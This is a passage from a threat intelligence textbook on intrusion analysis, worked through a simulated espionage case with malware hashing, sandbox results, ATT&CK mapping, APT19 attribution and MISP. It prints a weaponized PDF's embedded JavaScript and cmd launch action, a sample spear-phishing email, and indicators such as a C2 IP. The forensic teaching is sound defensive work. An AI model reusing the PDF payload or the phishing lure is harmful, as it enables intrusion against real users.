- 6. 执行 md5deep <file> 命令以获取恶意文件的消息摘要 5（MD5）哈希。文件生成的哈希为 12cf6583f5a9171a1d621ae02b4eb626，如以下屏幕截图所示：

```
md5deep executable.1640.exe
12cf6583f5a9171a1d621ae02b4eb626  /home/jovan/Downloads/forensics_files/
executable.1640.exe
```

图 10.18 – 恶意文件哈希键

我们可以在内部对哈希值进行搜索并检查恶意软件存储库。例如，在 VirusTotal 上搜索该哈希会得到以下结果——许多防病毒厂商将该哈希标记为恶意：



图 10.19 – VirusTotal 对提取的哈希指标的响应


我们已识别出恶意文件（可执行文件）并确认了其恶意性质。我们知道安装了哪个文件来入侵主机。杀伤链的安装阶段已确定。下一步的分析操作是了解恶意文件和被窃取的数据。

## Malware data gathering
## 恶意软件数据收集

我们需要提取恶意文件组件。在三级组织（拥有成熟安全基础设施和成熟 CTI 项目的组织）中，此操作由专门的恶意软件逆向工程团队执行。如果您无法执行此任务，可以外包技能。

## Malware analysis and reverse engineering
## 恶意软件分析与逆向工程

目标是彻底阐明恶意软件架构、设计和能力，并将其映射到杀伤链流程。任务中使用了两种方法：动态分析和代码分析方法。假设我们已收到恶意软件逆向工程团队的回复；或者，使用以下步骤通过在线沙箱工具进行基础分析：

- 1. 将 executable.1640.exe 文件上传至 VirusTotal (https://www.virustotal.com) 以进行反病毒静态分析。输出显示在以下截图中：



Figure 10.20 – VirusTotal output for the malicious executable file
图 10.20 – 恶意可执行文件的 VirusTotal 输出

29 家厂商检测到该文件为恶意文件（特洛伊木马）。然而，该文件仍可绕过大量反病毒软件。该网站提供有关文件的更多信息，包括文件的基本属性、历史记录以及与恶意软件相关的名称。在 BEHAVIOR 选项卡下，工具显示恶意软件在沙箱环境中执行的操作。恶意软件打开多个文件，写入额外文件，删除 Windows 日志文件，并更改注册表。

- 2. 将 executable.1640.exe 文件上传至 Hybrid Analysis (https://www.hybrid-analysis.com)，这是一个在线开源沙箱工具。有关文件的更多信息被揭示。

最重要的事情之一是查看 Hybrid Analysis 工具中的 MITRE ATT&CK 技术映射（页面底部）。动态分析显示与可执行文件关联的 TTPs，如以下截图所示：

## Incident Response
## 事件响应



Figure 10.21 – MITRE ATT&CK mapping on Hybrid Analysis
图 10.21 – Hybrid Analysis 上的 MITRE ATT&CK 映射

我们看到不同的战术，例如 Execution、Credential Access、Persistence 和 Privilege Escalation。我们现在已识别出与恶意文件关联的多个 TTPs 以及框架的不同阶段。该文件映射了 MITRE ATT&CK 框架的八种攻击技术（Service Execution、Hooking、Software Packaging、Application Window Discovery、Query Registry、System Time Discovery、Remote Desktop Protocol 和 Data Compressed）以及八种战术（Execution、Persistence、Privilege Escalation、Defense Evasion、Credential Access、Discovery、Lateral Movement 和 Exfiltration）。我们将利用这些信息填充 Cyber Kill Chain 和 Diamond 模型。

请注意，此处必须获取密码和解密密钥。我们假设恶意软件逆向工程团队已向您提供了解密被窃取数据（collected.rar）的密钥或密码。在下一个操作中，我们分析被窃取的文件。

## Analyzing the exfiltrated data and building adversary persona
## 分析被窃取的数据并构建对手画像

从原始数据包捕获中，我们识别出一个正在从系统中窃取数据的 collected_data.rar 文件。我们已定位该文件，现在应打开并检查访问了哪些数据。典型示例是在 Linux 系统中安装了 UnRAR 应用程序时运行 tar -zxvf collected_data.rar 命令或 unrar collected_data.rar 命令。以下截图显示了一个典型示例：

```
$ unrar e collected_data.rar

UNRAR 5.61 beta 1 freeware      Copyright (c) 1993-2018 Alexander Roshal

Enter password (will not be echoed) for collected_data.rar:

Extracting from collected_data.rar

Extracting  projectcobra/docs/analyticsTool_design_draft.docx          OK
Extracting  projectcobra/docs/AIbased_VR_product_strategy.docx         OK
Extracting  projectcobra/docs/new-solution-architecture-draft.docx     OK
Extracting  projectcobra/docs/component-and-technologies.docx          OK
Extracting  projectcobra/docs/simulation-result-test1.docx             OK
Extracting  projectcobra/software/circuit-diagram.cir                  OK
[...] 
All OK
```

Figure 10.22 – Example of an exfiltrated file decompression
图 10.22 – 被窃取文件解压缩示例

根据前面的截图，我们可以推断出被泄露的数据类型：来自名为 Cobra 的新项目的工程数据。这可能是针对 ABC 公司最新技术开发的定向攻击（间谍活动）。

> **Important Note**
> **重要说明**
> File compression is ubiquitous in data exfiltration. While we have used password methods in the simulated intrusion, adversaries often use advanced encryption methods such as the **Advanced Encryption Standard (AES)** algorithm. In the latter case, organizations need to avail cryptographers to try to retrieve the adversaries' encryption key—without that, it would be impossible to assess the exfiltrated data.
> 文件压缩在数据外泄中无处不在。虽然我们在模拟入侵中使用了密码方法，但对手通常使用高级加密方法，例如 **高级加密标准（AES）** 算法。在后一种情况下，组织需要聘请密码学家尝试获取对手的加密密钥——如果没有密钥，就无法评估被窃取的数据。
> 
> It is recommended to encrypt sensitive files such as intellectual property, trade secrets, and customers' credit numbers, within the system and use multiple backups to make the data useless for adversaries.
> 建议在系统内对敏感文件（如知识产权、商业机密和客户信用卡号）进行加密，并使用多重备份使数据对对手无用。

根据收集的数据、使用的密码以及恶意软件 TTPs，我们可以构建对手画像，如下一节所述。

## Building an adversary profile
## 构建对手画像

构建对手画像具有挑战性，因为您必须在 Cyber Kill Chain 阶段识别指标，特别是对于没有公开情报的入侵。在大多数情况下，对手确保提供更少的线索以供画像。然而，使用诸如 *密码*、*投递方式* 和 *C2 配置* 参数等指标，CTI 团队可以尝试推导出适合的活动或个人名称。

该恶意软件可执行文件已与多个公开报告关联（请参阅 *VirusTotal* 和 *Hybrid Analysis* 输出）以及 **高级持续性威胁组织 19**（APT19）。

> **APT19 Case – Codoso Group**
> **APT19 案例 – Codoso 组织**
> APT19 is a Chinese-based threat group that has targeted several industries, including telecommunications, manufacturing, and high-tech organizations. The most used campaign method is phishing. Groups linked to APT19 include Codoso (https://malpedia.caad.fkie.fraunhofer.de/actor/codoso). The Codoso group is known for hacking banks and high-tech companies. One notable hack is the *Forbes* website hacking of 2015.
> APT19 是一个以中国为基地的威胁组织，已针对多个行业，包括电信、制造和高科技组织。最常用的活动方法是网络钓鱼。与 APT19 关联的组织包括 Codoso (https://malpedia.caad.fkie.fraunhofer.de/actor/codoso)。Codoso 组织以入侵银行和高科技公司而闻名。一个值得注意的入侵是 2015 年对 *Forbes* 网站的入侵。

Persona 和对手画像对于活动归因以及为情报界设定通用名称至关重要。对于红队而言，对威胁行为者进行仿真并将其安全控制映射到其 TTPs 也很重要。例如，假设我们在恶意软件配置中找到参数和密码，其通用名称为 *jMorgan*。CTI 团队可以将此用作指标并将其归因于活动组织或单个恶意软件。

我们已发现大部分入侵能力（Cyber Kill Chain 的第 6 和第 7 阶段）。下一个任务是填写框架的下半部分，回答问题 *后门是如何安装的？* 或 *入侵是如何发生的？*

## Analyzing the malicious files
## 分析恶意文件

目标是分析文件以填充 Cyber Kill Chain 的第 1 至 5 阶段，并在过程中识别 Diamond 模型参数。该任务需要良好的系统级分析，尤其是文件系统（磁盘）分析。我们获取用户和活动时间线——**修改、访问和更改/创建时间（MAC 时间）**。假设您在以下路径的 outlook 目录中找到两个临时文件：`C:\Users\username\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.Outlook\`。文件为 `research_tech.pdf` 和 `~.exe`。然后您应按如下操作：

- 1. 提取文件并检查是否与 `reader_sl.exe` 文件有任何关联。诸如 `strings ~/.exe` 之类的简单命令将识别文件的内容。
- 2. 提取 **便携式文档格式（PDF）** 文件并检查内容是否包含任何可执行程序启动。以下截图对此进行了说明：

```
$ strings research_tech.pdf | grep -Fi ".exe" -C 5
endobj
591 0 obj
<</S/JavaScript/JS(this.exportDataObject({ cName: "F1191112612", nLaunch:
0 }));/Type/Action>>
endobj
592 0 obj
<</S/Launch/Type/Action/Win<</F(reader_sl.exe)/D(c:\\windows\\system32)/P(/-
Q /C %HOMEDRIVE%%cd %HOMEPATH%&(if exist "Desktop\\F1191112612.pdf" (cd
"Desktop"))&(if exist "My Documents\\F1191112612.pdf" (cd "My
Documents"))&(if exist "Documents\\F1191112612.pdf" (cd "Documents"))&(if
exist "Escritorio\\F1191112612.pdf" (cd "Escritorio"))&(if exist "Mis
Documentos\\F1191112612.pdf" (cd "Mis Documentos"))&(start F1191112612.pdf)
[...]
```

Figure 10.23 – Weaponized PDF file content
图 10.23 – 武器化 PDF 文件内容


检查前面的截图，我们可以看到 PDF 文件中存在可执行文件和 JavaScript 代码。*为什么 PDF 文件会有 JavaScript 代码和可执行启动？* 该 PDF 文件已被武器化。

另外，我们可以使用 SIFT 工作站通过使用 `pdf-parser.py [pdf doc.] > [result.txt]` 命令快速分析文档。以下截图中展示了示例：



图 10.24 – 使用 SIFT pdf-parser 模块的 PDF 检查器

我们可以看到结果中一个文档里有 12 个 **文件结束 (EOF)** 标签。这一发现令人怀疑，因为 PDF 文件很少包含如此多的 EOF 标签。该文件位于 Outlook 临时目录中。我们可以推断用户可能通过电子邮件下载了该文件。下一步是恢复电子邮件。

- 3. 通过检查用户邮件数据或请求 Exchange 服务器数据来分析邮件归档以识别邮件。我们发现用户从组织外部收到了包含 PDF 研究文章（research_tech.pdf）的电子邮件，并回复邮件以感谢发送者提供的文档。你应该分析邮件通信中的时间戳以重建对话。这足以作为潜在成功利用的证据。请注意，电子邮件可能包含恶意 URL 或请求受害者采取行动的回调号码，而不是附件文档。在任何情况下，目标都是识别入侵的入口向量。以下截图中显示了电子邮件示例：

```
Dear Mr. Stefan,

As member of the EXX group of researchers and impactful individuals,
We would like to let you know of the upcoming research strategy.
The group would like you to speak about the financial impact of Covid-19 for Tech start-ups.

We have attached the research brochure for your reference.
Should you have any question, please do not hesitate to contact me directly using this email.

We would like to express our gratitude for accepting to be part of the upcoming event.

Yours faithfully
Catherine Majabu
Coordinator
EXX group
+27-000010010
```

图 10.25 – 简单的精准钓鱼邮件示例

电子邮件显示这是一次钓鱼或精准钓鱼攻击。联系受害者并讨论安全意识和钓鱼策略很重要。下一步是识别电子邮件的来源并提取必要的指标。

- 4. 分析邮件头以获取更多指标，说明如下截图所示（注意时间戳）：

```
Return-Path: <>
Received: from host47.registrar-servers.com
    by host47.registrar-servers.com with LMTP
    id 4eapF5vZ8GAC/AEA/sVXiw
    (envelope-from <>); Thu, 15 Jan 2019 20:58:03 -0400
Return-path: <>
Envelope-to: 
Delivery-date: Thu, 15 Jan 2019 20:58:03 -0400
Received: from [194.150.215.153] (port=34727 helo=8owz.belfortfurniture.com)
    by host47.registrar-servers.com with esmtp (Exim 4.94.2)
    id 1m4CB0-000Xc7-NC
    for ; Thu, 15 Jan 2019 20:58:03 -0400
MIME-Version: 1.0
Message-Id: <INX.WFZjD.1ee9.7a6ae.2e18.F0nvlVq.bounce9@inx1and1.de>
From: Supermarkets Experience Survey<team-068@shopper.com>
Subject: Congratulations! You have been selected to participate in EXX upcoming event.
Reply-To: reply_F0nvlVq.bounce9@inx1and1.de
To: 
Content-Transfer-Encoding: 7bit
Content-Type: text/html; charset=UTF-8
Date: Fri, 16 Jan 2019 02:57:08 +0200
```

图 10.26 – 典型的电子邮件头

请注意，电子邮件中的大多数指标都可以被操纵或伪造（例如伪造电子邮件指标，如源地址、源 IP 等）。然而，收件字段是最关键的。它显示了邮件到达组织电子邮件服务器所经过的服务器列表。我们可以识别出 IP 地址和域名，以便通过邮件服务器日志进行枢转，检查组织中是否有其他用户收到过来自此类指标的电子邮件。

- 5. 使用 OSINT 例如 www.virustotal.com 来识别与所选指标的任何关联。它是否被标记为恶意？以下截图中展示了说明：



图 10.27 – 我们钓鱼邮件的 VirusTotal 输出

两个反病毒软件将该 IP 地址标记为恶意。IP 地址位置显示其源自俄罗斯。你可以导航到 VirusTotal 上的 RELATIONS 选项卡以探索图摘要工具（你需要注册才能执行此操作）。

- 6. 执行被动 DNS 查询以检查与同一 IP 地址关联的其他域名或反之亦然。一些被动 DNS 提供商提供应用程序编程接口（API）以与其他内部系统集成。使用免费的保护性 DNS（PDNS）例如 https://passivedns.mnemonic.no，我们获得了与前述 IP 地址关联的两个 DNS 查询，如下截图所示：

| 查询 | 答案 | 首次出现 | 最后出现 |
|---|---|---|---|
| mail.resoh.ru | 194.150.215.153 | 2020-09-11 06:36 | 2020-09-16 22:49 |
| resoh.ru | 194.150.215.153 | 2020-09-11 06:36 | 2020-09-14 12:00 |

图 10.28 – Mnemonic IP 地址解析

我们获得了与 194.150.215.153 IP 地址关联的更多域名：mail.resoh.ru 和 resoh.ru。这两个域名与垃圾邮件、恶意和钓鱼活动相关联。

- 7. 获取有关指标的更多信息——使用 whois <domain name>、host <IP-address> 或 nslookup <IP or domain> 命令获取有关指标的更多信息。查找注册人姓名、组织和电子邮件地址等信息。这有助于了解域名或 IP 地址的所有者。

我们已分析了系统中发现的恶意文件，回溯了用于初始访问的电子邮件，并通过外部来源对新发现的电子邮件指标进行了扫描。在下一节中，我们将研究收集早期指标。

## 收集早期指标 – 侦察

作为 CTI 分析师，我们需要识别导致定向钓鱼（精准钓鱼）攻击的活动。使用 OSINT 工具例如 Maltego (https://www.maltego.com/) 来确定组织的员工电子邮件地址暴露在哪里。

> **重要提示**
> 分析师可以利用图分析工具例如 Maltego 和 **Neo4j** (https://neo4j.com/download/) 来识别电子邮件指标与组织员工之间的相互关联。Maltego 是一种 OSINT 工具，意味着它可以帮助建立电子邮件中的指标与其他外部指标之间的关系。所有关联的信息可以让我们了解威胁行为者的操作模式以及他们主要针对的对象。

我们假设没有任何社交网络包含员工业务电子邮件地址。然而，我们发现公司最近发布了一篇关于推出新技术解决方案的文章。文章中出现的部门负责人是 Stefan、Victor、Priyanka 和 Yan，并附有各自的电子邮件地址。我们可以将其视为侦察的来源。然而，CTI 是关于证据的，我们需要证明这一点。我们执行以下操作：

- 1. 获取组织网站的 Web 日志。我们收集 Web 服务器生成的所有日志并提供用于分析。思路是专注于搜索、访问的页面和点击。
- 2. 你可以在 SIFT VM 中使用 strings 和 grep 命令获取数据。假设一个简单的 Apache 日志，如下截图所示，提取自 Web 服务器日志的一部分：

```
[...]
41.168.5.201 - - [01/Dec/2018:23:08:37 -0400] "GET
/ HTTP/1.1" 200 6394 www.abc.com/news/event-mogul/about.php?
param=Stefan&pos=hod
"-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1...)" "-"
41.168.5.201 - - [01/Dec/2018:23:08:38 -0400] "GET
/ HTTP/1.1" 200 6394 www.abc.com/news/event-mogul/about.php?
param=Priyanka&pos=hod
"-""Mozilla/4.0 (compatible; MSIE 6...)" "-"
41.168.5.201 - - [01/Dec/2018:23:08:38 -0400] "GET
/ HTTP/1.1" 200 6394 www.abc.com/news/event-mogul/about.php?
param=Victor&pos=hod
"-""Mozilla/4.0 (compatible; MSIE 6...)" "-"
41.168.5.201 - - [01/Dec/2018:23:08:38 -0400] "GET
/ HTTP/1.1" 200 6394 www.abc.com/news/event-mogul/about.php?
param=Priyanka&pos=hod
"-""Mozilla/4.0 (compatible; MSIE 6...)" "-"
[...]
```

图 10.29 – Apache 服务器日志示例


前面的截图显示，某个特定的IP地址访问了活动页面和个人员工页面。在阅读了*ABC*网站后，我们假设同一个IP地址搜索了LinkedIn、Google和Twitter以获取四名员工的信息（对于监控谁在访问公司和员工页面至关重要）。我们还发现，被入侵的主机是*研究人员*，隶属于*ABC*公司之外的外部团体。

侦察阶段本身并不具有恶意，但由于对手在寻找目标，可能令人怀疑。在我们的分析案例中，这很可能与企业间谍活动有关。被针对的人员可以直接访问组织的研究项目。这些搜索是在入侵发现前近3个月进行的。

在下一节中，我们将填充Cyber Kill Chain和Diamond模型框架，以完成手动分析并确定入侵范围。

## 网络攻击杀伤链与钻石模型

现在我们已经识别出对手使用的大多数TTP和基础设施，我们可以填充杀伤链和钻石模型以识别组织防御中的差距。钻石模型显示在以下截图中：



## 图10.30 – 每个网络攻击杀伤链阶段的钻石模型

钻石模型的某些元素可能缺乏支持证据，尤其是对手信息。在有足够情报的情况下，对行为体的画像会更容易，但在整个调查过程中如果没有情报，则可能成为未知元素。

杀伤链所有阶段的*发现*COA显示在以下截图中。填写所有发现结果至关重要，因为它们将用于CTI报告：

| Phase | Discovery | Detect | Deny | Disrupt | Degrade | Deceive |
|---|---|---|---|---|---|---|
| Reconnaissance | Website pages: event-mogul/about pages. LinkedIn, Twitter. Email addresses & research affiliations | | | | | |
| Weaponization | research_tech.pdf (Embedded JavaScript) | | | | | |
| Delivery | Phishing (email). 194.150.215.153 | | | | | |
| Exploit | Hook running process (explore.exe) | | | | | |
| Install | read_sl.exe (on explore.exe), executable.1640.exe, ~.exe (outlook temp) | | | | | |
| Command & Control (C2) | 125.19.103.198 Sys/files/ | | | | | |
| Actions | 46.168.5.140, Exfiltration – FTP, HTTP POST (RAR docs project cobra), C0d0s123 (password) | | | | | |

图10.31 – 带有发现COA的简化网络攻击杀伤链

我们已系统地分析了入侵，从一个指标内部 pivot 到另一个指标。我们可以讲述发生了什么。作为CTI分析师，您必须提供在未来阻止此类攻击的缓解计划（在杀伤链的任何阶段）。然而，缓解策略的实施需要战略团队的协调（管理层和执行团队），并将涉及不同的安全部门（风险管理、安全运营经理、IR经理以及**首席信息安全官（CISO）**）。

我们已收集了发现COA所需的必要信息。下一步应涉及对入侵的其余行动进行分析。然而，根据组织结构，其余行动可能属于IR团队的一部分。CTI与所有安全职能部门合作，以确保信息可用于决策。下一节将介绍使用MISP进行CTI存储和自动数据收集。

## 使用MISP进行自动化威胁分析和存储

MISP (https://www.misp-project.org/) 是一个用于自动化、分析和情报共享的开源TI平台。我建议资源有限的中小型企业使用MISP。我们从默认的MISP配置开始，然后可以稍后添加额外的数据源。

以下部分使我们能够自动化并存储之前的分析。

## MISP 源管理

收集正确的外部数据可能具有挑战性。MISP允许与多个源集成，并提供一组免费源（https://www.circl.lu/doc/misp/managing-feeds/）。以下要点提供了启用源的步骤：

- 1. 使用用户名 admin@admin.test 和 admin 密码登录MISP仪表板。首次登录时系统会要求您更改密码。
- 2. 导航到**同步操作 > 列出源**。
- 3. 点击**默认源**，全选并启用它们。源将被启用以与我们的分析进行关联。您将为每个字段获取名称、格式、提供商、来源以及其他多个字段。
- 4. 您可以使用**添加源**向当前MISP配置添加新源。
- 5. 选择要用于分析的字段，点击**获取并存储所有源数据**以从远程服务器获取指标和事件。

平台的源重叠选项允许分析师检查数据源是否重叠。一旦源已启用并缓存，我们就进入下一个任务。

## MISP 事件分析

为了执行入侵分析并与外部源关联，我们需要创建一个分析事件。以下步骤指导我们完成该过程：

- 1. 通过点击**事件操作 > 添加事件**创建事件。

*日期*为入侵检测日期；*分发*设置为**仅组织**，直到案件准备好发布为止。*威胁等级*取决于威胁的严重程度，而*分析*目前设置为**初始**。点击**提交**保存事件。

- 2. 添加属性。使用Cyber Kill Chain输出添加属性、附件以及导致入侵的电子邮件对象。我们添加的第一个属性是报告的C2 IP地址（125.19.103.198）。**提示：**将钻石模型的每个基础设施作为属性使用。使用**添加属性**、**添加对象**和**从...填充**为我们的分析添加指标。

- 3. 通过进入**丰富事件**并选择您想要添加的所有丰富内容来丰富事件。属性将被填充更多信息。

- 4. 使用**发布事件**菜单选项与组织或社区发布事件。

MISP存储分析并促进与社区共享。平台的另一个优势是与外部情报数据的关联。您可以使用**查看关联图**查看所创建的分析（事件）与其他事件之间的链接。

> **重要提示**
> 
> 处理指标时，始终以不易被操纵的稳定指标为目标。IP地址可以轻松更改或动态移动。使用域名可能是一个不错的选择。然而，C2域名也可以被动态操纵（有多个免费和付费的动态DNS服务）。因此，了解对手指标混淆的不同技术至关重要。

MISP的视觉链接表示可以帮助将基础设施、指标和威胁行为者联系起来。MISP还允许生成规则（例如**另一种递归缩写（YARA）**规则）以通过阻止包含所有检测到的指标的入站流量来提高安全性。有关MISP的更多信息可在官方MISP网页（https://www.misp-project.org/）上找到，还有关于如何利用MISP进行CTI分析的教程。

## 总结

逐一分析所有网络活动是不可能的。CTI流程并不总是直接的，您不能保证能找到CTI框架的所有元素。然而，逻辑是如果发生了，那么证据就在那里。您只需要更深入地搜索并确保组织拥有有助于调查的数据。请参阅*第7章，威胁情报数据源*，了解启动CTI计划（集中式数据系统、原始数据包捕获和存储等）的数据收集和最低数据要求。请注意，*SIEM工具（例如Splunk、IBM QRadar、AlienVault USM、McAfee ESM等）和TI平台（TIPs）（例如IBM X-Force Exchange、MISP、FireEye Mandiant、AlienVault USM等）使威胁和入侵分析以及传播比手动方法更简单。*然而，尽管手动入侵分析很复杂，但它通常是一项有趣且有回报的调查。因此，分析师应知道如何进行威胁或入侵分析——这是一项基本技能。然而，建议TI分析师了解一种或多种SIEM工具用于安全运营。*也建议具备日志文件格式和分析的扎实知识。*

本章描述了从CTI角度执行入侵分析的基本步骤。它还展示了如何通过在每个阶段末完成钻石模型元素，将威胁分析输出映射到网络攻击杀伤链。您应该能够执行入侵分析，因为它构成了分析师主要工作职责的一部分。

在下一章中，我们将通过遵循可用的安全方法，探讨如何将CTI作为业务流程的一部分。


